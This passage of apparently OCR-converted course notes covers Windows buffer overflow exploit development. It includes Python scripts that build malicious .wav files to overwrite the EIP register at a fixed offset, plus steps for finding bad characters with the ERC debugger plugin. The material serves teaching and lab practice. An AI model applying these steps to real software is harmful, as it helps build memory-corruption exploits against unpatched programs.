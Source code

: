 ```python
def eip_control():
    offset = 4112
    buffer = b"A"*offset
    eip = b"B"*4
    payload = buffer + eip
    
    with open('control.wav', 'wb') as f:
        f.write(payload)

eip_control()
```

The next step is to run the program with this input and verify that we see `42424242` in the EIP register. (`42` hex corresponds to `B`).

## Bad characters

Exactly in the sammer way of Linux, there are certain characters we shall avoid while building the shellcode. To do so, we can use `ERC` plugin:

```ps1
ERC --bytearray
```

This creates two files on our Desktop:

ByteArray_1.txt: Which contains the string of all characters we can use in our python exploit
ByteArray_1.bin: Which we can use with ERC later to compare with our input in memory.

Now, we can add the bad chars defined in the txt file into the payload script:

```python
def bad_chars():
    all_chars = bytes([
        0x00, 0x01, 0x02, 0x03, 0x04, 0x05, 0x06, 0x07,
        ...SNIP...
        0xF8, 0xF9, 0xFA, 0xFB, 0xFC, 0xFD, 0xFE, 0xFF
    ])
    
    offset = 4112
    buffer = b"A"*offset
    eip = b"B"*4
    payload = buffer + eip + all_chars
    
    with open('chars.wav', 'wb') as f:
        f.write(payload)

bad_chars()
```

and generate the payload again and run the program. First, we make sure the EIP is overriden with the expected value. We can then get the top of the stack with the `ESP` register and invoke ERC again:

`ERC --compare 0014F974 C:\Users\htb-student\Desktop\ByteArray_1.bin`
